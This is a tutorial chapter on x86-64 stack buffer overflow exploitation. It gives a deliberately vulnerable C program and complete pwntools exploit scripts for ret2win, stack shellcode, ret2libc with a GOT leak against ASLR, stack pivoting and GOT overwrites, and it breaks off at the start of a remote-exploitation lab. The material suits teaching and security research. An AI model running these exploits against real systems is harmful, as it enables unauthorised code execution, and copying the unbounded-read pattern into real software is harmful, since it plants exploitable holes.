




**Level:** Expert · **Track:** Vulnerability Research · **Read time:** 265 min

This is Chapter 2 of the Binary Exploitation notebook. Chapter 1 gave you the debugger and, in its final lab, proved the milestone this chapter is built on: an unbounded write into a stack buffer overwrites the saved return address, and when the function returns you control RIP. Here we turn that single fact into a complete, reliable, scripted exploit — the stack buffer overflow, the oldest and still most instructive class of memory corruption.

We build it in the natural order of increasing difficulty, which also happens to be the historical order in which defences were added and attackers routed around them: first a straight redirect to a helper function (`ret2win`), then classic shellcode on an executable stack, then — once NX makes the stack non-executable — returning into existing code with `ret2libc`, and finally the tradecraft of bad bytes, partial overwrites, and remote delivery. By the end you will have a reusable pwntools template that takes any similar bug from crash to shell.

The same ethics scope from Chapter 1 applies: everything here targets binaries you own or are authorised to test. These are the exact techniques a vulnerability researcher uses to find and responsibly report memory-corruption bugs; the defensive half of the chapter shows why modern compilers make the naive version fail and how defenders keep it that way.

---

## Part 1: The Anatomy of a Stack Frame

To overflow the stack precisely you must know its layout precisely. When a function is called on x86-64, the following happens, and every item lands at a known place relative to the others.

Consider `greet` calling convention step by step. Just before `call greet` executes, the caller has put arguments in registers. The `call` instruction **pushes the 8-byte return address** (the instruction after the `call`) onto the stack and jumps to `greet`. Then `greet`'s **prologue** runs:

```asm
greet:
    push   rbp            ; save the caller's frame pointer
    mov    rbp, rsp       ; establish this frame: RBP now anchors it
    sub    rsp, 0x30      ; allocate 0x30 bytes for locals (the buffer lives here)
    ...
    leave                 ; epilogue: mov rsp, rbp ; pop rbp   (tear down frame)
    ret                   ; pop the saved return address into RIP
```

After the prologue, the stack (high addresses at top) looks like this:

```
higher addresses
  ...caller's frame...
  [ saved return address ]   <- rbp+8   : what ret pops into RIP  ← TARGET
  [ saved RBP            ]   <- rbp     : caller's frame pointer
  [ local variables      ]             : e.g. char buf[32]
  [ ...                  ]   <- rsp     : top of stack
lower addresses
```

Two immovable facts define the exploit:

1. **The saved return address sits at `rbp+8`, just above the saved RBP, just above the locals.** It is the first "interesting" thing past your buffer.
2. **A buffer fills upward (toward higher addresses) as it is written**, so writing past its end marches straight through the saved RBP and into the saved return address.



The **distance from the start of the buffer to the return address** is the single number your exploit needs. In this frame it is `32 (buffer) + 8 (saved RBP) = 40` — but compilers add alignment padding, so you never assume; you measure it with `cyclic`, as in Chapter 1 and again below.

### Reading the frame in the disassembly

You can read the buffer's location directly from the prologue. Disassemble `vuln` and look at where the buffer is referenced relative to RBP:

```bash
pwndbg> disassemble vuln
   0x...11a9 <+0>:   push   rbp
   0x...11aa <+1>:   mov    rbp, rsp
   0x...11ad <+4>:   sub    rsp, 0x50            ; 0x50 bytes of locals reserved
   ...
   0x...11c8 <+31>:  lea    rax, [rbp-0x40]      ; buf is at rbp-0x40  <-- key line
   0x...11cc <+35>:  mov    edx, 0x200           ; read length = 512
   0x...11d1 <+40>:  mov    rsi, rax             ; rsi = &buf
   0x...11d4 <+43>:  call   read
```

`lea rax, [rbp-0x40]` tells you the buffer starts `0x40` (64) bytes below the saved RBP. The saved RBP is at `rbp`, the return address at `rbp+8`. So the distance from buffer start to the return address is `0x40 + 8 = 0x48 = 72` — which is exactly what `cyclic` reported for our 64-byte `buf` (the compiler placed it a little lower than the buffer size alone would suggest). **Being able to derive the offset two independent ways — from the disassembly and from `cyclic` — is how you catch your own mistakes before wasting a run.** When they disagree, trust `cyclic` (it reflects reality) and figure out what the disassembly reading missed.

This also explains *why* the offset is not always `sizeof(buf)+8`: the compiler may leave a gap between the buffer and the saved RBP for alignment or other locals, so the true distance is whatever `[rbp-N]` says plus 8, not the source-level array size plus 8.

---

## Part 1B: 32-bit vs 64-bit — What Changes for the Exploiter

Most modern targets are 64-bit, but 32-bit (x86) binaries are common in CTFs, legacy software, and embedded systems, and the differences change your payload construction in ways that silently break a chain if you get them wrong. The two that matter most:

- **Argument passing.** On x86-64, function arguments go in registers (`RDI, RSI, ...`), which is *why* ret2libc needs a `pop rdi` gadget. On 32-bit, arguments are passed **on the stack**, so ret2libc is simpler — you place them directly after the function address, no argument gadget required.
- **Address width and null bytes.** 32-bit addresses are 4 bytes (`p32()`), 64-bit are 8 (`p64()`). 64-bit user addresses are only ~48 bits, so the top two bytes are `\x00\x00` — meaning most 64-bit addresses *contain null bytes*, which matters under `strcpy` (Part 8).

The 32-bit ret2libc stack layout is worth memorising because it looks different from everything above:

```
32-bit ret2libc:  [padding][&system][&return_after][&"/bin/sh"]
                                     ^ where system returns to (can be 0xdeadbeef or exit)
                                                     ^ system's 1st arg, on the stack
```

```python
# 32-bit ret2libc — no pop-gadget needed, args go on the stack
payload  = b'A'*offset
payload += p32(system)        # return into system
payload += p32(exit_addr)     # system's return address (clean exit, or junk)
payload += p32(binsh)         # system's FIRST argument, read straight off the stack
```

| Aspect | x86 (32-bit) | x86-64 (64-bit) |
|--------|--------------|-----------------|
| Pointer size / pack | 4 bytes, `p32()` | 8 bytes, `p64()` |
| Integer args | on the **stack** | in **registers** RDI, RSI, RDX, RCX, R8, R9 |
| ret2libc needs a gadget? | No — args are on the stack | Yes — `pop rdi; ret` etc. |
| Null bytes in addresses | rare (full 4 bytes used) | common (top 2 bytes are `\x00`) |
| Stack alignment for `system` | not required | **16-byte** alignment required (`movaps`) |
| Registers available as gadgets | 8 GP registers | 16 GP registers (more gadget variety) |

**CTF note:** if a challenge binary is 32-bit (`file ./chal` shows `ELF 32-bit`), reach for the stack-argument ret2libc immediately — beginners waste time hunting for a `pop` gadget that the 32-bit convention does not need.

---

## Part 2: The Vulnerable Program

We will use one small program for the local labs. It contains the classic sin: an unbounded read into a fixed buffer.

```c
// overflow.c
// compile (Lab A, NX off, no canary, no PIE):
//   gcc -fno-stack-protector -z execstack -no-pie -g -o overflow overflow.c
// compile (Lab B, NX on):
//   gcc -fno-stack-protector -no-pie -g -o overflow_nx overflow.c
#include <stdio.h>
#include <string.h>
#include <unistd.h>

void win(void) {                       // present only to demo ret2win
    printf("[win] flag would print here\n");
    system("/bin/sh");
}

void vuln(void) {
    char buf[64];
    printf("input: ");
    fflush(stdout);
    read(0, buf, 512);                 // reads up to 512 bytes into a 64-byte buffer
    printf("you said: %s\n", buf);
}

int main(void) {
    vuln();
    return 0;
}
```

`read(0, buf, 512)` will happily write 512 bytes into `buf[64]`. Everything past byte 64-plus-padding overwrites saved RBP and then the return address.

Always start by reading the protections, per Chapter 1:

```bash
pwn checksec ./overflow
# RELRO: Partial | Stack: No canary found | NX: NX disabled | PIE: No PIE
# Read: No canary -> overflow reaches RA. NX disabled -> shellcode on stack works.
#       No PIE -> win() and stack addresses are stable enough to hardcode.
```

---

## Part 3: pwntools — The Exploit Framework (Tool From Scratch)

**What it is.** pwntools is a Python library purpose-built for exploit development. It handles process/socket I/O with one uniform interface, packs and unpacks integers with correct endianness, builds cyclic patterns, assembles/disassembles shellcode, parses ELF/libc symbol tables, and attaches GDB to your target — all the plumbing that would otherwise be error-prone boilerplate.

**Why it exists.** Without it you write fragile `struct.pack`/`subprocess`/`socket` code and re-derive endianness by hand every time. pwntools makes an exploit read like the attack itself: "send padding, then this address, then this shellcode," locally or remotely with a one-line switch.

**Install:**

```bash
python3 -m pip install --upgrade pwntools
# provides the `pwn` CLI (checksec, cyclic, asm, ...) and the `from pwn import *` library
```

**The core objects and functions you will use constantly:**

```python
from pwn import *

context.binary = './overflow'      # sets arch/bits/endianness for everything below
context.log_level = 'info'         # 'debug' shows every byte sent/received

io = process('./overflow')         # start a local process     ...OR...
io = remote('chal.ctf.io', 1337)   # connect to a remote service — same API afterwards

p64(0x401156)                      # pack a 64-bit int little-endian -> b'\x56\x11@\x00\x00\x00\x00\x00'
u64(b'\x00\x10\xa0\xf7\xff\x7f\x00\x00')  # unpack bytes -> int (for leaks)
cyclic(200)                        # De Bruijn pattern
cyclic_find(0x6161616c)            # offset of a 4/8-byte chunk within it

io.recvuntil(b'input: ')           # read until a marker
io.send(payload)                   # send bytes
io.sendline(payload)               # send bytes + newline
io.recvline()                      # read a line
io.interactive()                   # hand the shell to your keyboard
```

**Attaching GDB from pwntools** (this replaces the manual scripting from Chapter 1):

```python
io = gdb.debug('./overflow', gdbscript='''
    break vuln
    continue
''')
# or attach to an already-running io:
# io = process('./overflow'); gdb.attach(io, gdbscript='b *vuln+40')
```

That is the entire framework surface you need for stack overflows. Everything below is these calls arranged into an attack.

---

## Part 4: Finding the Offset (Reliably, Every Time)

The number-one source of failed exploits is a wrong offset. Do it with a cyclic pattern, never by counting. The workflow, scripted:

```python
from pwn import *
context.binary = './overflow'

# 1) Crash it with a unique pattern and read the faulting value out of the core/RSP.
io = process('./overflow')
io.send(cyclic(200))
io.wait()                                  # let it crash
core = io.corefile                          # pwntools grabs the core automatically
fault = core.read(core.rsp, 8)              # the 8 bytes ret tried to use
offset = cyclic_find(fault)                 # -> exact padding length
log.success(f'offset to return address = {offset}')
# [+] offset to return address = 72
```

pwntools' `corefile` support means you do not even open GDB by hand: send the pattern, let it die, read `core.rsp`, and `cyclic_find` gives you the offset. On this binary it reports 72 (the compiler aligned `buf[64]` up before the saved RBP). **Always let the tool tell you the number** — hand-counting `64 + 8` would have been wrong here by 0 or 8 depending on alignment, and that off-by-8 is a silent failure.



---

## Part 5: ret2win — Redirect to an Existing Function

The simplest useful primitive: overwrite the return address with the address of a function already in the binary that does something you want (`win`, which spawns a shell). Because the binary is No-PIE, `win`'s address is fixed.

```python
from pwn import *
context.binary = elf = ELF('./overflow')

offset = 72
win    = elf.symbols['win']           # pwntools reads the symbol table -> 0x401156

payload  = b'A' * offset              # fill buffer + saved RBP
payload += p64(win)                   # overwrite return address with win()

io = process('./overflow')
io.recvuntil(b'input: ')
io.send(payload)
io.interactive()                      # ret jumps into win(), which runs system("/bin/sh")
# $ id
# uid=1000(ctf) ...
```

That is a complete, working exploit. Note two subtleties that bite beginners:

- **Stack alignment for `system`/`movaps`.** Modern glibc's `system` (and many library functions) execute SSE instructions like `movaps` that fault unless RSP is 16-byte aligned at the moment of the call. If `win` calls `system` and it crashes inside libc with a `movaps` fault, insert a single `ret` gadget before `win` to realign the stack:

```python
ret = ROP(elf).find_gadget(['ret'])[0]     # a bare "ret" address
payload = b'A'*offset + p64(ret) + p64(win) # one extra ret nudges RSP by 8 -> aligned
```

- **`elf.symbols['win']` vs. hardcoding.** Let pwntools read the address from the ELF; hardcoding `0x401156` breaks the moment the binary is recompiled.

**CTF note:** `ret2win` is the first challenge of ROP Emporium and a staple of picoCTF; recognising "there's a conveniently-placed win function" is the pattern here.

---

## Part 6: Classic Stack Shellcode (When NX Is Off)

If the stack is executable (`checksec` says `NX disabled`, our Lab A build), you can place your own machine code — *shellcode* — directly on the stack and return into it. This is the original 1996-era technique. It no longer works on modern systems because NX is on by default, but understanding it is foundational and it still appears in CTFs and embedded targets.

The plan: put shellcode in the buffer, and overwrite the return address with the address of that buffer so `ret` jumps into it.

```python
from pwn import *
context.binary = './overflow'          # sets arch to amd64 for asm()

# pwntools ships a shellcode library; execve("/bin/sh") for the current arch:
sc = asm(shellcraft.amd64.linux.sh())  # ~48 bytes of position-independent shellcode

offset = 72
# We need the runtime address of buf. Grab it from GDB once (ASLR off) or leak it.
buf_addr = 0x7fffffffe2e0              # example; find with 'telescope $rsp' in GDB

payload  = sc                           # shellcode first, inside the buffer
payload += b'A' * (offset - len(sc))    # pad up to the return address
payload += p64(buf_addr)                # return into the start of the buffer

io = process('./overflow')
io.recvuntil(b'input: ')
io.send(payload)
io.interactive()
```

The fragile part is `buf_addr`: with ASLR on, the stack address changes every run, so pure stack-shellcode needs either ASLR off, a stack-address leak, or a **`jmp rsp` / trampoline** trick. Two robustness improvements worth knowing:

- **NOP sled.** Prefix the shellcode with a run of `0x90` (NOP) bytes and aim your return anywhere into the sled; execution slides down to the shellcode. This tolerates imprecision in `buf_addr`:

```python
sled = asm('nop') * 200
payload = sled + sc
payload = payload.ljust(offset, b'A') + p64(buf_addr_somewhere_in_sled)
```

- **`jmp rsp`.** If a `jmp rsp` (or `call rsp`) gadget exists and RSP points at your data after the return, you can return to the gadget instead of a hardcoded stack address, sidestepping ASLR entirely.

**Why this is mostly historical:** with NX enabled (every modern default) the stack is `rw-` not `rwx`, so the CPU refuses to execute your bytes and faults. That single mitigation is why the next Part exists.

---

## Part 7: Bypassing NX with ret2libc

When the stack is non-executable, you cannot run your own code — so you return into code that already exists and is executable: the C library. libc contains `system`, and the string `"/bin/sh"` is sitting inside libc too. The goal becomes: **make the program call `system("/bin/sh")`** using only existing code.

Per the System V calling convention (Chapter 1), `system`'s single argument must be in **RDI**. But at the moment of our `ret`, we control the stack, not registers. The trick is a **gadget**: a short instruction sequence ending in `ret`, borrowed from the binary, that loads RDI from the stack.

```asm
; the gadget we need — "pop rdi ; ret"
pop rdi        ; take the next 8 bytes off the stack into RDI
ret            ; return to the next address on the stack
```

Find it and the other pieces with pwntools' `ROP` and `ELF` helpers:

```python
from pwn import *
context.binary = elf = ELF('./overflow_nx')
libc = elf.libc                         # pwntools resolves the linked libc

rop      = ROP(elf)
pop_rdi  = rop.find_gadget(['pop rdi', 'ret'])[0]   # address of "pop rdi; ret"
ret      = rop.find_gadget(['ret'])[0]              # bare ret for alignment
```

But there is a catch that defines this chapter's difficulty jump: **libc is loaded at a random base (ASLR), so we do not know the runtime address of `system` or `"/bin/sh"` yet.** For now, assume ASLR is off (or we have the base); Chapter 4 is entirely about defeating ASLR with a leak. With a known libc base:

```python
offset  = 72
system  = libc.symbols['system']        # requires knowing libc base at runtime
binsh   = next(libc.search(b'/bin/sh')) # address of the string inside libc

payload  = b'A' * offset
payload += p64(ret)                      # 16-byte stack alignment before the call
payload += p64(pop_rdi)                  # gadget: next stack value -> RDI
payload += p64(binsh)                    # RDI = pointer to "/bin/sh"
payload += p64(system)                   # ret into system  -> system("/bin/sh")

io = process('./overflow_nx')
io.recvuntil(b'input: ')
io.send(payload)
io.interactive()
```

Read the payload as a program the `ret` instructions execute one after another:



This is the seed of full **ROP**, which Chapter 3 generalises: a chain of `pop`/`ret` gadgets that sets up arbitrary function calls entirely from data on the stack, with no injected code at all. ret2libc is the two-gadget special case.

**The unavoidable dependency on a leak.** ret2libc needs libc's runtime base. On a target with ASLR (all real ones), you first *leak* an address — typically by using the same overflow to call `puts(got_entry)` and print a libc pointer, compute the base, then send a second-stage payload. That leak-then-exploit two-stage pattern is introduced in Chapter 3 and made airtight in Chapter 4; for this chapter's labs we keep ASLR off so the mechanics stay clear.

---

## Part 7B: The Two-Stage Leak — ret2libc Against ASLR (Preview)

The previous Part assumed we knew libc's base. On any real target ASLR randomises it each run, so we must **leak** a libc address first, compute the base, then send a second payload. This pattern recurs so often that you should see it once now even though Chapter 4 formalises it. The insight: the **GOT** holds the resolved runtime address of a libc function; if we can make the program *print* a GOT entry, we learn where libc is.

The classic technique is **ret2plt-leak-then-return-to-main**: use the first overflow to call `puts(puts@got)`, which prints the real runtime address of `puts`, then return back into `main`/`vuln` for a second overflow now that we know the libc base.

```python
#!/usr/bin/env python3
from pwn import *

elf  = context.binary = ELF('./overflow_nx')
libc = ELF('./libc.so.6')                 # the target's libc (provided in CTFs)

rop     = ROP(elf)
pop_rdi = rop.find_gadget(['pop rdi', 'ret'])[0]
ret     = rop.find_gadget(['ret'])[0]
offset  = 72

io = process('./overflow_nx')

# --- STAGE 1: leak the runtime address of puts by calling puts(puts@got) ----
payload  = b'A'*offset
payload += p64(pop_rdi) + p64(elf.got['puts'])   # RDI = &GOT[puts]
payload += p64(elf.plt['puts'])                   # call puts -> prints libc puts addr
payload += p64(elf.symbols['vuln'])               # return into vuln() for round two
io.recvuntil(b'input: ')
io.sendline(payload)

leak = u64(io.recvline().strip().ljust(8, b'\x00'))   # unpack the 6-byte leak
libc.address = leak - libc.symbols['puts']            # rebase the whole libc
log.success(f'libc base = {libc.address:#x}')

# --- STAGE 2: now every libc symbol is known -> ret2libc for real -----------
system = libc.symbols['system']
binsh  = next(libc.search(b'/bin/sh\x00'))
payload  = b'A'*offset
payload += p64(ret)                                # alignment
payload += p64(pop_rdi) + p64(binsh) + p64(system) # system("/bin/sh")
io.recvuntil(b'input: ')
io.sendline(payload)
io.interactive()
```

The mechanics that make this work:

- **`elf.got['puts']`** is a fixed address in the (No-PIE) binary; **`elf.plt['puts']`** is the callable stub. Calling `puts` on its own GOT entry prints the *contents* of that entry — the resolved libc address.
- **`libc.address = leak - libc.symbols['puts']`** rebases pwntools' entire libc model in one line, after which `libc.symbols['system']` and `libc.search('/bin/sh')` return correct runtime addresses.
- **Returning into `vuln`** gives us a second overflow with libc now known — the "leak then exploit" two-stage structure.

```mermaid
sequenceDiagram
    participant X as Exploit
    participant P as Program
    X->>P: STAGE 1: pop_rdi; &got[puts]; call puts@plt; ret->vuln
    P-->>X: prints runtime address of puts (the leak)
    X->>X: libc_base = leak - offset(puts)
    X->>P: STAGE 2: pop_rdi; &"/bin/sh"; call system
    P-->>X: /bin/sh
```

**Why "return to `vuln`" and not straight to `system`?** Because at stage 1 we did not yet know `system`'s address — we only learned it *from* the leak `puts` printed. You cannot use knowledge you have not yet obtained, so the exploit must round-trip. Chapter 4 shows the variants (leak via `write`, via format strings, or one-shot with a `one_gadget`). For now, internalise the shape: **leak a GOT entry → rebase libc → second-stage ret2libc.**

---

## Part 8: Bad Bytes, Truncation, and Encoding

Real inputs pass through functions that treat certain bytes specially, and if your payload contains a "bad byte" the input is truncated or mangled and the exploit silently fails. Knowing the input function tells you the bad bytes:

| Input function | Bad bytes (stop/mangle input) | Consequence |
|----------------|-------------------------------|-------------|
| `gets`, `scanf("%s")`, `fgets` | `\n` (0x0a), sometimes space/tab | payload cut at first newline/whitespace |
| `strcpy`, `sprintf`, most str* | `\x00` (NUL) | payload cut at first null byte |
| `read` (raw) | *(none)* | fully binary-safe — easiest case |
| network line protocols | `\n`, `\r` | line terminators end the field |

Our `read(0, buf, 512)` is binary-safe, which is why the labs are clean. When the target uses `strcpy`, a `\x00` in an address truncates the payload — a real problem because addresses often contain null bytes (e.g. `0x0000000000401156` has five). Mitigations:

- **Order the payload so the null-containing value comes last** — a trailing null is fine because it is the end anyway.
- **Partial overwrite** (next Part) to avoid writing the null-heavy high bytes at all.
- **Encode the shellcode** to avoid bad bytes: `pwn.encoders` or `shellcraft` can produce null-free, newline-free shellcode; or XOR-encode and prepend a tiny decoder stub.

```python
# Find bad bytes empirically: send all 256 byte values and see which survive in memory
payload = b'A'*offset + bytes(b for b in range(1,256))
# then in GDB, examine the buffer and note where it got cut / which bytes changed
```

Always enumerate bad bytes early; a working payload that "sometimes fails" is almost always a bad-byte or alignment problem, not bad logic.

---

## Part 9: Partial Overwrites and Off-by-One

You do not always need to overwrite the whole return address. Because of little-endian layout, the **low byte** of the return address is at the lowest address, so a one- or two-byte overflow can change just the low bits of a pointer — enough to redirect to a nearby function or gadget without needing to know (or write) the high bytes at all.

- **Single-byte off-by-one.** A loop that writes `buf[i]` for `i <= len` (note the `<=`) writes one byte past the buffer — classically clobbering the least-significant byte of the saved RBP or a pointer. That one byte can be enough to move a frame pointer into attacker-controlled data ("off-by-one → frame pointer overwrite").
- **Partial RA overwrite to beat PIE.** With PIE, code addresses are randomised but only in the high bits; the low 12 bits (one page) are fixed. Overwriting just the low 2 bytes of a return address redirects within the same code region without knowing the PIE base — a common trick you will formalise in Chapter 4.

```python
# Overwrite only the low 2 bytes of the saved return address (keep the rest intact)
payload = b'A'*offset + p16(0x1234)   # p16 packs a 2-byte little-endian value
```

The lesson: overwrite the *minimum* necessary. Smaller overwrites dodge bad bytes, dodge canaries you cannot leak, and defeat partial randomisation.

---

## Part 9B: Stack Pivoting — When the Overflow Is Too Small

Sometimes the buffer overflow only gives you a handful of bytes past the return address — enough to overwrite RA and maybe one gadget, but not enough room for a whole ret2libc chain. The solution is a **stack pivot**: point RSP at a region *you* fully control (a large buffer elsewhere, often a global or a heap buffer you filled earlier), so that subsequent `ret`s execute a long chain you staged there.

The pivot gadget is one that loads RSP from data you control, most commonly:

```asm
pop rsp ; ret          ; take the next stack value into RSP (the new stack)
; or the very common:
leave ; ret            ; mov rsp, rbp ; pop rbp ; ret  -> if you control saved RBP
xchg rax, rsp ; ret    ; swap a controlled RAX into RSP
add rsp, 0x40 ; ret    ; adjust in fixed steps
```

The `leave; ret` pivot is the one you meet most, because a linear overflow already overwrites the saved RBP. If you set saved RBP to `&controlled_buffer - 8` and overwrite RA with the address of a `leave; ret` gadget, then when the *next* function epilogue runs, `mov rsp, rbp` moves the stack to your buffer and the chain there executes.

```python
# Minimal pivot: overwrite saved RBP -> our buffer, RA -> "leave; ret"
leave_ret = rop.find_gadget(['leave', 'ret'])[0]
fake_stack = elf.symbols['global_buf']          # a big writable buffer we pre-filled
# ... put the real ROP chain at global_buf, ending where leave;ret lands us ...
payload  = b'A'*(offset-8)
payload += p64(fake_stack - 8)                  # this becomes RBP -> leave sets RSP here
payload += p64(leave_ret)                       # RA: pivot into fake_stack
```


**When you reach for this:** short overflows, or exploits where the input landing on the real stack is length-limited but a *separate* large input (a name field, an environment variable, a heap allocation) is fully attacker-controlled. Pivoting is the bridge between "I control a big buffer" and "but the overflow itself is tiny." Chapter 3 uses pivots heavily once ROP chains grow long.

---

## Part 9C: GOT Overwrite — Redirecting a Function Pointer

A stack overflow that reaches a return address is not the only path to control flow. If the overflow (or a linked write primitive) can reach the **GOT**, you can overwrite the resolved pointer of a soon-to-be-called libc function so that the *next* call to it jumps wherever you choose. This is powerful because it does not require winning a race with `ret` — the program calls the poisoned pointer itself.

The prerequisite is **Partial RELRO** (check with `checksec`): under Partial RELRO the GOT is writable; under **Full RELRO** it is mapped read-only after startup and this technique is dead.

The idea, concretely: if the program calls `printf(user)` again after your write, overwrite `GOT[printf]` with `&system`. The next `printf(cmd)` becomes `system(cmd)`, and if you control that argument you have `system("/bin/sh")`.

```python
# Overwrite GOT[puts] with system, so the next puts("/bin/sh") runs a shell.
# (Assumes a write primitive from the overflow; here via a pop-pop-write gadget chain.)
from pwn import *
elf = context.binary = ELF('./target')          # Partial RELRO required

# using pwntools ROP to assemble a write of system into GOT[puts]:
rop = ROP(elf)
rop.raw(b'A'*offset)
rop.memcpy(elf.got['puts'], elf.symbols['system_ptr'], 8)   # or a manual pop;pop;mov gadget
```

More commonly in stack-overflow challenges you reach the GOT indirectly: a **`write4`-style gadget** (`mov [reg1], reg2 ; ret`) lets you write an arbitrary value to an arbitrary address. ROP Emporium's `write4` challenge is exactly this — write `"/bin/sh"` into a writable section, or overwrite a GOT entry, using a `mov qword [r14], r15 ; ret` gadget fed by `pop r14 ; pop r15 ; ret`:

```python
mov_gadget = rop.find_gadget(['mov qword ptr [r14], r15', 'ret'])[0]
pop_r14_r15 = rop.find_gadget(['pop r14', 'pop r15', 'ret'])[0]
data = elf.bss(0x100)                            # a writable scratch address in .bss
chain  = b'A'*offset
chain += p64(pop_r14_r15) + p64(data) + p64(0x0068732f6e69622f)  # "/bin/sh\0"
chain += p64(mov_gadget)                         # writes "/bin/sh" into .bss
# ... then pop_rdi=data ; call system  ->  system("/bin/sh")
```



**Blue-team relevance:** this is precisely why **Full RELRO** exists and should be a default build flag — it removes the writable-GOT primitive entirely, forcing the attacker back onto the harder stack/leak techniques. When you audit a binary and see Partial RELRO plus any arbitrary-write primitive, GOT overwrite is the first thing to consider (offensively) or fix (defensively).

---

## Part 10: Hands-On Lab A — Local Shell via ret2win and Shellcode

Full reproducible walkthrough on the Lab A binary (NX off, no canary, no PIE).

### Build and triage

```bash
gcc -fno-stack-protector -z execstack -no-pie -g -o overflow overflow.c
pwn checksec ./overflow
# No canary | NX disabled | No PIE  -> both ret2win and stack shellcode viable
```

### Find the offset

```python
from pwn import *
context.binary = './overflow'
io = process('./overflow'); io.send(cyclic(200)); io.wait()
print('offset =', cyclic_find(io.corefile.read(io.corefile.rsp, 8)))
# offset = 72
```

### Exploit 1 — ret2win (most reliable)

```python
from pwn import *
elf = context.binary = ELF('./overflow')
rop = ROP(elf); ret = rop.find_gadget(['ret'])[0]
payload = b'A'*72 + p64(ret) + p64(elf.symbols['win'])
io = process('./overflow'); io.recvuntil(b'input: '); io.send(payload)
io.interactive()
# [win] flag would print here
# $ whoami
```

### Exploit 2 — stack shellcode (prove the classic path)

```python
from pwn import *
context.binary = './overflow'
sc  = asm(shellcraft.amd64.linux.sh())
# get buf address from GDB with ASLR off:
#   gdb -q ./overflow -ex 'b vuln' -ex run -ex 'telescope $rsp'  -> note buf addr
buf = 0x7fffffffe2e0
payload = sc + b'A'*(72 - len(sc)) + p64(buf)
io = process('./overflow'); io.recvuntil(b'input: '); io.send(payload)
io.interactive()
```

If Exploit 2 crashes, it is almost always (a) ASLR on (turn it off for this lab: `setarch -R ./overflow`, or run inside GDB), or (b) `buf` address slightly off — add a NOP sled and aim into the middle of it. Both are the exact debugging reflexes this chapter trains.

---

## Part 11: Hands-On Lab B — Remote Exploitation over a Socket

